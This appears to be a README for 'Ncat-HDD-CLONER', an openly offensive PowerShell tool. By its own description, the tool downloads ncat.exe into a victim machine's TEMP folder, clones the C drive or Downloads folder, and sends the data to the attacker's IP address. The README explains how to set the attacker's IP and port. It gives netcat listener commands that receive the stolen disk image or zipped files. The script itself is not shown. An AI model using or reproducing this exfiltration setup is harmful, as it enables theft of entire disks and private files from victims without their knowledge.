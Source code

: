 # Ncat-HDD-CLONER
This script is coded in powershell, How it works, it will go no and download ncat.exe file in the 
/TEMP location of your victim machine and after it will go on and clone the local disk C or Downloads depending
to the script you use and it sends it to the attacks's ip address.
```text
change the port and ip address in the script to attack's ip and port
```
Usage:

Linux machine Receiver with **C:cloner.ps1**
```
nc -l -p 12345 | pv | dd of=/path/to/target/image.img bs=4M
```

Linux machine Receiver with **Downloads:cloner.ps1**
```
nc -l -p 12345 > Downloads.zip && unzip Downloads.zip -d /path/to/extract/
```
This command receivers the zipped data sent by ncat and unzip it to the provided location
